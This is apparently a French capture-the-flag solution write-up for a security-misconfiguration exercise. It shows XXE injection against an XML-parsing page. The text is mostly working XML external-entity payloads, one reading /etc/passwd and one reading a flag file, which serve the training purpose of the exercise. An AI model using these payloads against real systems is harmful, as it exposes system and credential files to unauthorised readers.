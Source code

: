# Solution
## A05 - Mauvaise configuration de sécurité

Nous avons une page qui parse le XML et qui affiche le contenu. Nous pouvons donc tester une attaque XXE. Nous pouvons tester avec le payload suivant :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```
Nous pouvons voir que cela fonctionne.
Nous essayons donc ensuite :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```
Et nous obtenons le fichier `/etc/passwd`.

Nous pouvons donc obtenir le flag :
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///etc/flag_xxe.txt"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&xxe;</lastName>
 </userInfo>
```